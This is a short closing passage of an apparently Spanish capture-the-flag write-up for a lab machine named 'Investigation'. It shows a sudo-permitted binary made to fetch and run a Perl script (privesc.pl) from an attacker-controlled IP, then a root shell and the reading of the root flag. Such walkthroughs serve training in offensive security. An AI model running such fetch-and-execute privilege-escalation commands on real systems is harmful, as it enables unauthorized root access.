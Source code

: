 Nos convertimos en `root`
```shell
smorton@investigation:/tmp$ sudo binary http://10.10.14.85:8081/privesc.pl lDnxUysaQn
Running... 
root@investigation:/tmp# id
uid=0(root) gid=0(root) groups=0(root
```

Y ya podríamos leer la flag de `root`
```shell
root@investigation:/tmp# cat /root/root.txt
13310bc79b0a86a...
```

¡Y ya estaría!


Happy Hacking! 🚀